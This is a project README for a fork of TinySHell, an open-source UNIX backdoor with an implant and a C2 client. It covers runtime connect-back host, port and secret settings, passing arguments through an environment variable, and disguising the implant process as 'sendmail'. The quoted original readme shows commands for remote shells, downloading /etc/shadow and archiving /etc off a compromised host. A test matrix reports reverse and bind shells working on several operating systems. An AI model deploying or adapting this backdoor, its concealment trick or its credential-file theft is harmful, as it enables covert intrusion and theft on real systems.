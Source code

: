 This is an updated fork of creaktives fork of TinySHell, an open source UNIX backdoor.

creaktive added commandline argument parsing which allows you to dynamically set the connectback host, port, and shared secret value at runtime. 

Like so:
```
# implant side
Usage: ./tshd [ -c [ connect_back_host ] ] [ -s secret ] [ -p port ]

# c2 side
Usage: ./tsh [ -s secret ] [ -p port ] [command]

   <hostname|cb>
   <hostname|cb> get <source-file> <dest-dir>
   <hostname|cb> put <source-file> <dest-dir>
```

I've since added support for passing those arguments through an environmental variable by shamelessly copy-pasting Skyper from The Hackers Choice's implementation of env2argv from the THC fork of dsniff. 

So now you can do the following on the implant side:
```
ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" ./tshd
```

Which is kinda cool, but it gets neater - you can hide the process somewhat with old school trickery like the following - making it look like a sendmail process as an example:
```
mv tshd sendmail
PATH=.:$PATH ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" sendmail 
```

Further changes will follow as testing proceeds and I refactor small bits, try out some bullshit, etc. 

For the planned experiments/etc, see the Issues tab where I've created an issue for each "idea" to experiment with. 

I can't guarentee any timeline on how fast anything will get done, or in what order, it really depends on free time, effort, etc. 

## current notes:
11-04-2024: tested in bind shell mode, working on Ubuntu and FreeBSD targets. Reverse connect mode seems buggy, unclear if network gremlins or other. Build on OpenBSD fails. Plan going forward is to fix the reverse connect mode, then fix the OpenBSD build-time issues, then fix the OpenBSD run-time issues.  
12-04-2024: Figured out that the issue with reverse-connection mode was an extra : in the getopt string after a lot of buggering around. Reverse and bind modes now working perfectly on FreeBSD and Ubuntu. Further stress testing needed though.  
12-04-2024: currently, the tsh client sends `exec bash --login` as the default command to pop a shell - `tsh_runshell( server, "exec bash --login" ) );`, on some systems without bash this causes an error. So we should probably default to "sh" instead?  
12-04-2024: issuing a release at this point just as a snapshot of it "working" on Ubuntu/FreeBSD.  
13-04-2024: OpenBSD support has been provisionally fixed at this time, though you need to replace "gcc" with "egcc" in the Makefile currently.  
14-04-2024: Tested working with dietlibc on Ubuntu, x86_64 platform. Probably can optimise for size.  

## compatability/test notes
I'll update these as I figure out what is/is not working, etc.


| OS | Distribution | Version | Architecture | Bind Shell Client | Bind Shell Server | Reverse Shell Client | Reverse Shell Server | File Upload | File Download | Env2Args |
| :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: |    :---:      |         :---: |
| Linux   | Ubuntu |   23.10  | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |
| FreeBSD | FreeBSD | 14.0-RELEASE | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |
| OpenBSD | OpenBSD | 7.5 | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |
| Darwin | MacOS | 22.4.0 | ARM | YES | YES | YES | YES | UNK | UNK | YES |



## Original readme below.
```

                 Tiny SHell - An open-source UNIX backdoor


    * Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.

```
